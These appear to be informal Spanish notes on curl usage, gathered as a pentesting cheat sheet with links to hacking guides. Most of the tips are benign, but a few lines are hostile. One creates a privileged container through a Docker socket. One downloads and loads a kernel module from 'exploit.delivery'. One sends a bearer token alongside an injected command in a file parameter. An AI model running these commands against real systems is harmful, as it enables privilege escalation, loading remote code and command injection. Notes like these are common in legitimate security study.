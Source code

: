 # Curl


curl -v (--verbose)

escapar los corchetes con %5B para [ y %5D para ]

Incorrecto

    curl -v http://internal-api-organization.abc/king/prod/alertas/[Flaco] Read ssh information/escalation-policies  

Correcto

    curl -v http://internal-api-organization.abc/king/prod/alert-types/%5BFlaco%5D%20Read%20ssh%20information/escalation-policies


Se pueden ver cabeceras

    X-Content-Type-Options: nosniff
    X-Request-ID:
    X-Frame-Options: DENY
    X-XSS-Protection: 1; mode=block
    X-Nginx-Host:
    X-Nginx-Pool:
    X-Nginx-UpstreamHost:
    X-Upstream-Server: envoy


Incluir encabezados en la respuesta

    curl -i (Incluir encabezados en la respuesta)


Mostrar el tiempo de conexión y otras métricas con -w


https://gist.github.com/subfuzion/08c5d85437d5d4f00e58




    curl --unix-socket $SOCKPATH -d '{"Image":"bad", "Privileged":"true"}' -H 'Content-Type: application/json' 0/containers/create

    curl -O exploit.delivery/bad.ko && insmod bad.ko


    Get a file from an SSH server using SFTP:

    curl -u username sftp://example.com/etc/issue
    Get a file from an SSH server using SCP using a private key (not password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa scp://example.com/~/file.txt
    Get a file from an SSH server using SCP using a private key (password-protected) to authenticate:

    curl -u username: --key ~/.ssh/id_rsa --pass private_key_password
    scp://example.com/~/file.txt

    curl -A 'Mozilla/3.0 (Win95; I)' http://www.bank.example.com/


Reference

    https://curl.se/docs/tutorial.html


    https://www.lazyhackers.in/posts/curl-command-cheat-sheet-for-penetration-testing


    https://github.com/frizb/HackingWithCurl


    https://cyber4hack.com/comando-curl-para-pentesting/


    $ curl --referer

    https://manasharsh.medium.com/hacking-with-curl-unleash-the-cli-beast-fdf13ec342cc

curl que carga archivo (bee)



    time curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU5ODE3M2ZjMDkzOTA0NjJmOTFiYWEiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InNlY25pZ21hQHRlc3QuY29tIiwiaWF0IjoxNjQyNjkzMTkyfQ.dxEs0eV1nPf4CctskzZ1DlWeOgi7tWaYHBD29A7gfx8' 'http://10.10.11.120/api/logs?file=.env;sleep+5;'



